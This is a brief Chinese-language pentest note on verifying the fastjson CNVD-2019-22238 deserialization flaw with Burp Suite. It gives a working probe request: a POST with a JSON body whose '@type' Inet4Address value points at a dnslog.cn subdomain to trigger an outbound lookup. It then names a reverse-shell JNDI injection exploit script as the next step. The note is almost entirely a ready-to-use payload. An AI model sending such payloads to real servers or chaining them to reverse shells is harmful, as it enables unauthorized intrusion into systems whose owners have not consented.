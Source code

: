 # 漏洞验证, bp 发包
fastjson-cnvd_2019_22238

```sh
# 1. 改POST
POST / HTTP/1.1
# 2. 改application/json
Content-Type: application/json

# 3. body里按下面填
{"x":{"@type":"java.net.Inet4Address","val":"2i9ehz.dnslog.cn"}}
```

使用 web_exp_reverse_shell_fastjson_jndi_JNDI-Injection-Exploit_fast.py
